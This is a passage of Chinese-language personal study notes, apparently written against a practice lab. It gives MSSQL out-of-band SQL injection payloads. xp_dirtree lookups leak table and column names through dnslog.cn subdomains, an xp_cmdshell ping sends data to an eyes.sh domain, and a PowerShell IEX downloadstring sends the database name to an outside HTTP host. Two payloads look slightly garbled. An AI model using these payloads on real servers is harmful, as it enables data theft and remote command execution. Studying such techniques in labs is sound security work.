 ![image-20240905203520207](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905203520207.png)

#### 获取表名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 table_name from information_schema.tables where table_name not in(select top 4 table_name from information_schema.tables));exec('master..xp_dirtree "//'%2B@a%2B'.06z43e.dnslog.cn\\a"') --+
```

![image-20240905205520289](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905205520289.png)

#### 获取字段名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn\\a"') --+
```

![image-20240905205733240](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905205733240.png)

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 2 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn\\a"') --+
```

![image-20240905205640015](C:\Users\24937\Desktop\学习\笔记\assets\image-20240905205640015.png)

#### 获取数据

```sql
id=1';declare @a varchar(8000);set @a=(select top uagent from emails) ;exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
```

------

# http数据外带

#### 获取数据库名

```sql
id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```

![image-20240906092130775](assets/image-20240906092130775-1725772724758-21.png)
